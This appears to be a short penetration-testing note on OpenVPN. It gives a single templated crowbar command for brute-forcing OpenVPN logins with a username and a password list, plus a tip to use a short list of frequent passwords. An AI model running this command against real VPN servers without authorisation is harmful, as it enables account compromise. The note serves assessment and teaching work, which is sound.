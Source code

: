 # OpenVPN

## 01 - Brute Force

> [!NOTE] Slow Bruteforce
> Since bruteforcing may take a long time. Use a shorter and most frequent [[07 - Tactics & Techniques & Procedures Phases/B - Vulnerability Assessment/0x02 - IoTs/VPN Appliances/Helpers|vpn wordlist]] to find low hanging fruit.

```
$ crowbar -b openvpn -s <target_IP>/32 -p <443 | 1194> -m file.ovpn [-k certificate.crt] -u <username> -C passwords.lst
```

---
## References

- [[Crowbar|Crowbar]]